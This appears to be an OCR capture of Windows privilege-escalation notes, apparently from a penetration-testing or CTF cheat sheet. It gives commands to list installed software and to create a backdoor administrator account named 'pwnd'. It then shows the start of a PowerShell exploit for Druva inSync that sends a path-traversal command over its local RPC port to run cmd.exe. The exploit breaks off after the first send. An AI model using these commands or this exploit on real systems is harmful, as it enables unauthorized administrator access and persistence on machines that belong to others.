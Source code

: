   

we can search for existing exploits on the installed software online on sites like [exploit-db](https://www.exploit-db.com/), [packet storm](https://packetstormsecurity.com/) , Google or others.

  

# List installd softwares

wmic product get name,version,vendor

  

# Add new user and pass

net user pwnd SimplePass123 /add 

net localgroup administrators pwnd /add

  

# Check if user is created

net user pwnd

  

Druva inSync exploit

$ErrorActionPreference = "Stop"

  

$cmd = "net user pwnd /add"

  

$s = New-Object System.Net.Sockets.Socket(

    [System.Net.Sockets.AddressFamily]::InterNetwork,

    [System.Net.Sockets.SocketType]::Stream,

    [System.Net.Sockets.ProtocolType]::Tcp

)

$s.Connect("127.0.0.1", 6064)

  

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")

$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")

$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");

$length = [System.BitConverter]::GetBytes($command.Length);

  

$s.Send($header)
